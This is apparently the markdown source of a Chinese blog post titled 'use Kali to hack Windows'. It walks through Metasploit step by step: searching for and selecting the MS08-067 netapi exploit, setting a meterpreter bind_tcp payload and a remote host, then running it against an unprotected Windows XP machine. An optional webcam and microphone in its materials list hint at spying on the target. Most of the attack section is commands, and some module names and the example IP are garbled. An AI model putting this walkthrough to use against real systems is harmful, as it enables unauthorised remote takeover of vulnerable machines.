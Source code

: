 ```yaml
---
layout: post
title: 用kali来黑掉windows
tags: windows linux 教程
keywords: windows linux kali 教程 黑
categoty: tech
cover: 'https://www.kali.org/wp-content/uploads/2019/02/kali-release-2019-600x284.png'
---
```

### 前言
哈喽大家好。我有好久没更新博客了。  
在这段时间里，我变得非常黑。因为我在为kali做准备。  
前一段时间，我的电脑移到其他地方去了，然后我去插那边的网线，结果插上是插上了，响灯也想了，电脑上也写着连接了，有因特访问。可是，我进百度却进半天都没进去，竟然还连接超时，7456。  
然后有人看了，说是我电脑的问题，叫我装双系统。Okay，这就是我最近在为kali做准备的原因。  
  
### 准备材料
- Kali电脑一部
- 没装防火墙和360卫士或防火墙不稳定的电脑一部*这里我用xp*
  - (可选)摄像头
  - (可选)麦克风

### 01.开启Metasploit
Metasploit是一个安全渗透软件。Kali可以在终端*root*里输入:  
```bash
msfconsole
```
来打开它。
![]({{ site.imgbed }}/img/kalihack/01.png)

### 02. 搜索Xp漏洞
也正是msf是一个安全渗透软件，所以我们可以查看漏洞。输入:
```msf
search platform:windows
```
或者是
```msf
search netapi
```
来搜索。  
之后，你会看到有一个`ms08-netapi`的漏洞，利用等级是`great`。  
使用`info *内容名*`可以来查看该内容的详细解说。
![]({{ site.imgbed }}/img/kalihack/02.png)

### 03.使用ms08漏洞并设置
使用该内容，输入:
```msf
use exploit/windows/smb/ms08_067netapi
```
然后你会发现提示符旁边多了个叫做`exploit(windows/smb/ms08_067-netapi)`的东西，表示使用成功。  
我们输入:
```msf
set payload windows/meterpreter/bind_tcp
```
设置载荷。  
另外，我们要攻击Xp主机，需要先提前知道Xp的IP地址。知道后，回到你的kali前，输入:
```msf
set RHOST 192.108.1.104
```
这里是设定控制主机的ip地址，RHOST可以说是全写Remote Host。这里我做个例子，ip地址是192.108.1.104。

做完这些后，你就可以开始hack了！输入
```msf
exploit
```
![]({{ site.imgbed }}/img/kalihack/03.png)
![]({{ site.imgbed }}/img/kalihack/04.png)
